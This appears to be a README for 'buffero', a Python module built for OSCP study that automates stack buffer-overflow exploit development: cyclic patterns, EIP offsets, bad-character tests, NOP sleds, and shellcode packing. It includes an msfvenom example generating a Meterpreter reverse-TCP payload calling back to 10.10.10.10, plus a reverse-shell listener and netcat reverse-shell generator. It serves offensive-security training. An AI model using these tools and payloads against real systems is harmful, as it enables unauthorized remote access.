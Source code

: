 # buffero

Buffer Overflow Exploit Developement Pyton module

I have created this module while I'm preparing for OSCP. This module helps the Buffer Overflow exploit developement in python language.

# How to use buffero module

This summary will describe how to use buffero

### Generate Cyclic Pattern

The **generate_pattern** function will generate an unique pattern, same as **msf-pattern_create**
```python
import buffero

# Generate 1200 length of Cyclic pattern
# Equivalent with msf-pattern_create -l 1200
pattern = buffero.generate_pattern(1200)
# pattern = Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A...
```

---

### Get the offset of the EIP value

The **get_pattern_offset** method will help to find the right offset value
```python
import buffero
    
EIP = '386F4337'	# The value of the EIP register
offset = buffero.get_pattern_offset(1200,EIP)
# offset = 2003
```
---

### Generate Bad Characters

```python
import buffero
    
badchararr = [0x00]	# Specify \x00 as a bad character
    
# Generate a bad character array without the \x00 character
bc = buffero.generate_bctest(badchars=badchararr)
```
Additionally, the **generate_bctest** function will write a result into a file which name is **bctest.bin**. This file is easily examine by xxd command.
```bash
root@kali:~# xxd bctest.bin
00000000: 0102 0304 0506 0708 090a 0b0c 0d0e 0f10  ................
00000010: 1112 1314 1516 1718 191a 1b1c 1d1e 1f20  ................
00000020: 2122 2324 2526 2728 292a 2b2c 2d2e 2f30  !"#$%&'()*+,-./0
00000030: 3132 3334 3536 3738 393a 3b3c 3d3e 3f40  123456789:;<=>?@
00000040: 4142 4344 4546 4748 494a 4b4c 4d4e 4f50  ABCDEFGHIJKLMNOP
00000050: 5152 5354 5556 5758 595a 5b5c 5d5e 5f60  QRSTUVWXYZ[\]^_`
00000060: 6162 6364 6566 6768 696a 6b6c 6d6e 6f70  abcdefghijklmnop
00000070: 7172 7374 7576 7778 797a 7b7c 7d7e 7f80  qrstuvwxyz{|}~..
00000080: 8182 8384 8586 8788 898a 8b8c 8d8e 8f90  ................
00000090: 9192 9394 9596 9798 999a 9b9c 9d9e 9fa0  ................
000000a0: a1a2 a3a4 a5a6 a7a8 a9aa abac adae afb0  ................
000000b0: b1b2 b3b4 b5b6 b7b8 b9ba bbbc bdbe bfc0  ................
000000c0: c1c2 c3c4 c5c6 c7c8 c9ca cbcc cdce cfd0  ................
000000d0: d1d2 d3d4 d5d6 d7d8 d9da dbdc ddde dfe0  ................
000000e0: e1e2 e3e4 e5e6 e7e8 e9ea ebec edee eff0  ................
000000f0: f1f2 f3f4 f5f6 f7f8 f9fa fbfc fdfe ff    ...............
```

---

### Generating NOP Sled


```python
import buffero

nops = buffero.generate_nop_sled(16)
# nops = '\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90'

```

---

### Packing the JMP Address

```python
import buffero

# same as struct.pack('<I',0x625011af)
# but in this case the result will be an str
addr = buffero.pack('<I',0x625011af)

```
---

### Spawning a Reverse Shell

```python
import buffero

# Listening on 0.0.0.0:9001
buffero.spawn_rev_shell(9001)
```

---

### Encoding and Decoding

In python3 socket.send() will work only byte type array. The encode method will encode the given string into 'Latin-1' encoded byte array.
The decode method will do the same but reverse order. Generate a string with 'Latin-1' encoding from byte array. This is useful when shellcode concatenated with the other pieces of the payload.

```python
import buffero

shellcode  = ""
shellcode += b"\xbb\x6a\xf5\xdd\x01\xd9\xe8\xd9\x74\x24\xf4"
...
shellcode += b"\x41\xa1\x25\xeb\xda\x44\x49\x58\xda\x4c"

# Decoding to string the given bytes type shellcode.
payload += offset + eip + padding + buffero.decode(shellcode) + suffix

# Encoding to bytes type array the concatenated payload
s.send(buffero.encode(payload))
```

---

### Generating Shellcode with MsfVenom

This module will use the MsfVenom application which installed on Kali systems by default. The purpose of this module to fasten the developement, avoiding to leave the developement platform, while generating shellcode, and copy and paste it. This module is not too smart but works well, if the requirements are installed.
Important note, the format must be python.
```python
import buffero

msf = msf_shellcode()

# Run custom MsfVenom command and get the shellcode back
# No need to specify the 'msfvenom' word
shellcode = msf.run_msfvenom_command('-p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=9001 EXITFUNC=thread -f python')
# shellcode = xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b...

# Use predefined functions for fasten the developement
# Keyword arguments are enabled.
# Create POP CALC for determine the exploit is working.
shellcode = msf.generate_popcalc(exitfunc="thread",badchars="\\x00\\x0a")	# Escaping bad caharacters is important especially NULL sequence

# Create Netcat catchable Reverse shell.
shellcode = msf.generate_ncrev_shell(exitfunc="thread",badchars="",lhost="",lport="")
```
